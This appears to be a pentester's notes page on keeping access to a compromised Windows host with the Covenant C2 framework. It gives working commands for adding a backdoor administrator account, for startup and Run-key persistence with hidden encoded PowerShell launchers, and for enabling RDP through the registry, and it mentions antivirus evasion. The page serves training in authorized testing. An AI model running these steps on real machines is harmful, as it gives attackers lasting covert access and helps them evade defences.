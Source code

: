# Persistence

Here we assume we have a shell with administrative privileges on the target

## Create a new user

### Covenant

- Select Interact in your grunt
- Use `shellcmd net users username password /add` (Note: for a real context engagement we need to make a safe password and a recognizable username such as the name of the company we work for)
- we can check that the user has been successfully added using `shell net users`
- Now we need to add our user to the administrators group using `shell net localgroup administrators username /add`

## Startup Persistence

### Covenant

- This method will ibject a payload in the startup tasks
- In your grunt go to the tab Task in the GruntTask list choose `PersistStartup`
- You should see this in the Payload input: `powershell -Sta -Nop -Window Hidden -EncodedCommand <blah>` replace the blah with a powershell encoded launcher and click on Task
- If we restart the target machine and login again there we should get our shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***

## Autorun Persistence

### Covenant

- Go to launcher, select `Binary Launcher` Generate one and Download it
- Go back to your high integrity grunt, go to the task tab
- In the GruntTack Select `PersistAutorun`, choose a directory in where to upload the binary
- Go to the interact tab type Upload put the Directory in the file path and select the bin file you download previously
- You can check if the bin was successfuly added to the Registry using this cmd: `GetRegistryKey HCKU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- Once you restart you should have a shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***

## Persistence with RDP

- With an initial shell on a machine with covenant
- Enable Remote Desktop in our target: in the interact tab we can type this `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`
- We could then connect to the target using rdp and disabling anti-virus this way
- Disable Remote Desktop Commection: `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f; Disable-NetFirewallRule -DisplayGroup "Remote Desktop"`

## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
